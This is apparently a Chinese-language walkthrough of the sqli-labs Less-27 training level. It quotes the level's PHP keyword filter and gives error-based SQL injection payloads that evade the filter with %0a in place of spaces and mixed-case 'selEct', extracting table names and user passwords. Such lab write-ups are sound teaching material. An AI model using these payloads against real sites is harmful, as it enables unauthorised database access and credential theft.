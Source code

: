 ```yaml
---
title: less27
url: https://www.yuque.com/u29002979/ep2zrx/ou09sqdkpugeowuf
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$id= preg_replace('/[\/*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.

$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
```

新增加**union,select,UNION,SELECT,Union,Select**被过滤。

> 空格，换行——> %0a

and，or没有被过滤。
针对php这种弱类型语言，可以采用**部分大写部分小写绕过** **selEct**

> All Your UNTON and SELEBCT belong to US.

**union和select**也被过滤了。 <a name="F1rLT"></a>

# 注入点检查

`1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-27\index.php** on line **36**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

用单引号闭合**'**

<a name="l8hNe"></a>

# 报错注入

```bash
爆破数据库名称
1'and%0aupdatexml(1,concat(0x7e,database(),0x7e),1)or'
爆破数据表名称
1'and%0aupdatexml(1,concat(0x7e,(selEct%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x7e),1)or'1
爆破字段名
1'and%0aupdatexml(1,concat(0x7e,(selEct%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0aand%0atable_name='users'),0x7e),1)or'1
爆破字段内容
1'and%0aupdatexml(1,concat(0x7e,(selEct(group_concat(username,0x7e,password))from%0ausers),0x7e),1)||'
```
